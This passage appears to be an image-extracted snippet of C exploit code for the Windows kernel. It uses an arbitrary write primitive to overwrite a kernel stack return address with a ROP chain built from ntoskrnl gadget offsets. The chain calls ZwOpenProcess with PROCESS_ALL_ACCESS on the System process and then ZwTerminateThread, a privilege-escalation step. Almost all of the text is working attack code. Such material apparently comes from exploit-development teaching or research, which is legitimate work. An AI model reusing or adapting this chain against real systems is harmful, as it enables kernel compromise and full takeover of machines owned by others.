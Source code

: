```c
	//
	// Print update
	//
	printf("[+] Stack address: 0x%llx contains nt!KiApcInterrupt+0x328!\n", retAddr);

	//
	// Handle to the System process
	//
	HANDLE systemprocHandle = NULL;

	//
	// CLIENT_ID
	//
	CLIENT_ID clientId = { 0 };
	clientId.UniqueProcess = ULongToHandle(4);
	clientId.UniqueThread = NULL;

	//
	// Declare OBJECT_ATTRIBUTES
	//
	OBJECT_ATTRIBUTES objAttrs = { 0 };

	//
	// memset the buffer to 0
	//
	memset(&objAttrs, 0, sizeof(objAttrs));

	//
	// Set members
	//
	objAttrs.ObjectName = NULL;
	objAttrs.Length = sizeof(objAttrs);
	
	//
	// Begin ROP chain
	//
	write64(inHandle, retAddr, ntBase + 0xa50296);				// 0x140a50296: pop rcx ; ret ; \x40\x59\xc3 (1 found)
	write64(inHandle, retAddr + 0x8, &systemprocHandle);		// HANDLE (to receive System process handle)
	write64(inHandle, retAddr + 0x10, ntBase + 0x99493a);		// 0x14099493a: pop rdx ; ret ; \x5a\x46\xc3 (1 found)
	write64(inHandle, retAddr + 0x18, PROCESS_ALL_ACCESS);		// PROCESS_ALL_ACCESS
	write64(inHandle, retAddr + 0x20, ntBase + 0x2e8281);		// 0x1402e8281: pop r8 ; ret ; \x41\x58\xc3 (1 found)
	write64(inHandle, retAddr + 0x28, &objAttrs);				// OBJECT_ATTRIBUTES
	write64(inHandle, retAddr + 0x30, ntBase + 0x42a123);		// 0x14042a123: pop r9 ; ret ; \x41\x59\xc3 (1 found)
	write64(inHandle, retAddr + 0x38, &clientId);				// CLIENT_ID
	write64(inHandle, retAddr + 0x40, ntBase + 0x6360a6);		// 0x1406360a6: pop rax ; ret ; \x58\xc3 (1 found)
	write64(inHandle, retAddr + 0x48, ntBase + 0x413210);		// nt!ZwOpenProcess
	write64(inHandle, retAddr + 0x50, ntBase + 0xab533e);		// 0x140ab533e: jmp rax; \x48\xff\xe0 (1 found)
	write64(inHandle, retAddr + 0x58, ntBase + 0xa50296);		// 0x140a50296: pop rcx ; ret ; \x40\x59\xc3 (1 found)
	write64(inHandle, retAddr + 0x60, (ULONG64)dummyThread);	// HANDLE to the dummy thread
	write64(inHandle, retAddr + 0x68, ntBase + 0x99493a);		// 0x14099493a: pop rdx ; ret ; \x5a\x46\xc3 (1 found)
	write64(inHandle, retAddr + 0x70, 0x0000000000000000);		// Set exit code to STATUS_SUCCESS
	write64(inHandle, retAddr + 0x78, ntBase + 0x6360a6);		// 0x1406360a6: pop rax ; ret ; \x58\xc3 (1 found)
	write64(inHandle, retAddr + 0x80, ntBase + 0x4137b0);		// nt!ZwTerminateThread
```